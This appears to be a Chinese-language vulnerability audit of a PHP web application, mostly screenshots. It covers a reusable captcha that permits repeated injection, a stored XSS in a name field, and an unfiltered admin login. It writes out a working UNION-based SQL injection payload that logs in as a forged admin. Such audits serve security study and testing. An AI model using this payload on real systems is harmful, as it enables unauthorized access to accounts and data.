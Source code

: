 



### `submit.php`

![image-20230525145929543](../../../images/image-20230525145929543-1686141975686.png)

![image-20230525151458927](../../../images/image-20230525151458927-1686141975686.png)

因为验证码正确后也不刷新，所以可以使用同一个验证码进行注入

![image-20230525151429571](../../../images/image-20230525151429571-1686141975686.png)







存储xss

过滤

![image-20230525145800880](../../../images/image-20230525145800880-1686141975686.png)

但是还是可以在name处保存

输出点

![image-20230525145901519](../../../images/image-20230525145901519-1686141975686.png)





## 后台

### 后台登录

![image-20230525153016604](../../../images/image-20230525153016604-1686141975686.png)

没有过滤，可以使用联合查询构造临时用户数据登录,或者报错注入拿到密码后解密登录

判断字段数

![image-20230525153002742](../../../images/image-20230525153002742-1686141975686.png)

确定用户名，密码字段位置

![image-20230525154135880](../../../images/image-20230525154135880-1686141975687.png)

联合查询登陆

```php
user=-1'+union+select+1,2,'admin','c4ca4238a0b923820dcc509a6f75849b',5,6,7,8#&password=1&login=yes
```

![image-20230525154322362](../../../images/image-20230525154322362-1686141975687.png)

